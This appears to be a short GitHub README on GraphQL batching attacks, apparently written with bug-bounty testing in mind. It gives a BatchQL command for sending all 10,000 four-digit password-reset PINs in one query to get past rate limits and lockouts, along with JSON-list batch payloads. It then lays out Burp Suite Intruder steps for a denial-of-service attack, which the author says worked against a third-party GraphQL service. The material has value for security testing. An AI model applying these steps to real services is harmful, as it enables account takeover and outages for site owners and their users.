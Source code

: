 GraphQL is designed in a way that allows you to write clean code on the server, where every field on every type has a focused single-purpose function for resolving that value. However, without additional consideration, a naive GraphQL service could be very “chatty” or repeatedly load data from your databases.

This is commonly solved by a batching technique, where multiple requests for data from a backend are collected over a short period of time and then dispatched in a single request to an underlying database

# GraphQL-Batching-Attack

GraphQL batching attacks can be quite serious depending on the functionalities implemented. For example, imagine a password reset functionality which expects a 4 digit pin that was sent to your email. With this tool, you could attempt all 10k pin attempts in a single GraphQL query. This may bypass any rate limiting or account lockouts depending on the implementation details of the password reset flow.

Tool:
https://github.com/assetnote/batchql

Recommdated Command: (*cautions* may cause the hyper stress in backend)


python3 batch.py -e https://ENDPOINT -w wordlist -p localhost:8080 -s 5000 (*you can increase the size of payload and you can see, is it causing stress on application or not) 



JSON list based batching

When sending a GraphQL query, a single query may look like the following:

{"query": "query { Query { hacktheplanet } }"}
As seen in the query above, it consists of a single JSON dictionary containing a single query.

Many GraphQL implementations support sending batch queries by providing a JSON list of queries, like shown below:

[
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   },
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   }
]


In this case, a JSON list of queries is provided to the GraphQL server. If the GraphQL API supports this form of batching queries, it will respond with something like this:

[
   {
      "errors":[
         {
            "message":"Cannot query field \"Query\" on type \"Query\".",
            "locations":[
               {
                  "line":1,
                  "column":9
               }
            ]
         }
      ]
   },
   {
      "errors":[
         {
            "message":"Cannot query field \"Query\" on type \"Query\".",
            "locations":[
               {
                  "line":1,
                  "column":9
               }
            ]
         }
      ]
   }
]


Indicating that server-side batching was performed and both of the queries from the request were executed successfully.


TIME TO CONVERT JSON list based batching INTO APPLICATION DOS WITH BURPSUITE (*NOTE NOT TESTED IN BUGBOUNTY PROGRAM)

1. Capture the request JSON list based batching queries from the BatchQL tool
      [
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   },
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   }
]
2.Send the request to repeater and replace the above payload with JSON_list_Application_DOS.txt and Send the request three or four times and note response timing.

3. Send the request to Intruder select the whole request and take the null payload, payload options to continue indefinitely, in itruder options go to the attack results and click on Use denial-of-service mode (U can use more then two or more intruder attack tab for more traffic )

4. Start the attack, go to repeater send the request and observe the response and try to load the web page.

Tried on third-party hosted graphql, it was quite effective and SOMETIMES  ATTACK WILL FAIL IF TARGET HAVE CLOUDLFLARE 






